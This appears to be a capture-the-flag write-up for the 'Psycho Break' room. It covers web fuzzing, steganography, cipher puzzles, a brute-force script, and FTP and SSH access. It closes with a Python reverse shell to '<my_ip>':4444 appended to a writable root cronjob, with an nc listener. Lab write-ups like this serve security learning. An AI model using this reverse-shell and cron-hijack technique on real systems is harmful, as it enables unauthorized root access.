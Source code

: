 # Psycho Break Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 21: ftp. ProFTPD 1.3.5a
- 22: ssh. OpenSSH 7.2p2 Ubuntu
- 80: http. Apache httpd 2.4.18

None of the versions appear to be vulnerable.


## HTTP

Viewing the source on port 80's home page revealed a directory **/sadistRoom**.
This displayed the first key for the locker room.

The locker room page says decode the text: *Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv*. This is the *atbash* cipher, revealing the second map key after inputting the decoded key.

Entering this key into /map.php reveals links to all 4 rooms, so let's check out the final two.


### Safe Haven

The source code contains the comment *I think I'm having a terrible nightmare. Search through me and find it ...*

Using fuzzing tools with a standard wordlist didn't find anything, so I used cewl to generate a custom wordlist based on the link given in the page source of the first room:

```
cewl -url https://theevilwithin.fandom.com/wiki/Sadist > words.txt

gobuster fuzz -u http://<ip>/SafeHeaven//FUZZ -w words.txt -k --exclude-length 273
```

This quickly found the */keeper* directory. It then gives you 1m45s to find the real location of the given image. Quickly navigating to *https://tineye.com/* and uploading the image found some original sources with the location listed, although I had to re-format it to match the page's. This gave me the keeper key.


### The Abandonded Room

The page source of this room gives a hint about a *shell*, so I tried to add it as a parameter:
```
?shell=<command>
```

It is a very limited shell as most commands result in *Command not permitted!*, but the **ls** command worked, so I had a look around the filesystem. The parent directory (..) contained two interesting directories, one of which was the current directory name, so I replaced that in the url with the other one.

This let me escape from Laura! This new directory contained a .txt file congratulating me, as well as a *helpme.zip*. Unzipping revealed the helpme.txt and Table.jpg files. 

helpme.txt:
```
From Joseph,

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of this cell.
```

Using Binwalk found there were some embedded files within the Table.jpg file, as it returned *key.wav* and *Joseph_Oda.jpg*. Running unzip again retrieved these 2 files.


## Audacity & FTP

Loading key.wav into Audacity shows a sequence of shorter and longer beeps separated by even longer gaps: *morse code!* Translating it reveals the passphrase **showme**. Using this key in the upper case let's us extract a final text file from Joseph_Oda.jpg.

```
steghide extract -sf Joseph_Oda.jpg
```

This generated thankyou.txt with some ftp credentials for the *joseph* user.
```
ftp <ip>
```

On the ftp server, there were two files, a program and a dictionary list called random.dic, so I downloaded those.


## Python script to find the keyword

Program takes a word as an argument and outputs either 'Incorrect' or 'Correct'. I wrote a short python script to run the program with each of the keywords in the list, and output the word that caused 'Correct' to appear in the list.

```
import subprocess
import sys

wordlist = sys.argv[1]
program = sys.argv[2]

with open(wordlist, 'r') as file:
    for line in file:
        line = line.strip()
        output = subprocess.check_output([program, line])
        output = output.decode('utf-8').strip()
        if "Correct" in output:
            print("Keyword found: " + line)
            break
```

Then, run the program with:
```
python3 script.py random.dic ./program
```

This found the keyword **kidman**. Supplying this argument to the program outputs this:
```
Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
```

Because there is a maximum of 4 numbers supplied, I guessed this was a *tap phone cipher*, and I was right. The decoded message is the password to ssh for the *kidman* user.


## SSH & Privilege Escalation

```
ssh kidman@<ip>
```

The first flag was found in the user's home directory as usual.
I found an interesting cronjob being run by root: **python3 /var/.the_eye_of_ruvik.py**. Since this script is writeable, I just added to the end a python reverse shell back to my machine to get root :)

```
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<my_ip>",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty 
pty.spawn("/bin/bash")
```

Then, setup the listener with **nc -lvnp 4444** and wait for the cronjob to run!
The root flag was found in the /root directory as usual :)

This challenge was so fun! Not particularly difficult, but had a lot of enjoyable elements like the morse code in the .wav file and the custom brute force script.
